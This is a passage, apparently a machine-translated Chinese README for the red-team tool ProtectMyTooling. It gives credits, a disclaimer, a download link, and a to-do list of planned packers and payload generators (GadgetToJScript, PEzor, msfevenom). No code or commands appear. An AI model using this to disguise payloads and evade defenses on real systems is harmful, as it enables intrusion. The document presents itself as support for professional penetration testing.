## 到期信用&使用的技术

*   所有包装，混淆，转换器，加载学分去他们的作者。这个工具仅仅是他们技术的包装！
    *   希望他们不介意我添加这样的包装。如果有任何疑问，请联系我。
*   *ProtectMyTooling* 也使用[`denim.exe`](https://github.com/moloch--/denim)by**moloch-**by 一些基于 Nim 的打包程序。

## 全部

*   编写自定义 PE 注入器，并将其作为“保护者”提供
*   添加水印到其他文件格式，如办公文档，WSH 脚本(VBS，JS，HTA)和容器
*   在不久的将来增加对其他一些包装器/装载机/发电机的支持:
    *   [T2`GadgetToJScript`](https://github.com/med0x2e/GadgetToJScript)
    *   [T2`Limelighter`](https://github.com/Tylous/Limelighter)
    *   [T2`PEZor`](https://github.com/phra/PEzor)
    *   [`msfevenom`](https://github.com/rapid7/metasploit-framework)–两种变体，一种用于输入外壳代码，另一种用于可执行代码

## 免责声明

使用这个工具以及任何其他项目，我的作者为非法目的，未经请求的黑客攻击，网络间谍是严格禁止的。我分发的这个工具和其他工具帮助专业渗透测试人员、安全顾问、安全工程师和其他安全人员提高他们客户网络的网络防御能力。在任何情况下，作者或版权所有者都不对因非法使用本软件而引起的任何索赔、损害或其他责任负责。

如果有顾虑、版权问题、该软件带来的威胁或其他询问，我愿意合作负责任地解决这些问题。

该工具提供了方便的界面，可以使用大多数开源或商业可用的打包程序/保护器/混淆软件，因此不会立即对网络安全领域带来任何新的威胁。

[Click Here To Download](https://github.com/mgeeky/ProtectMyTooling)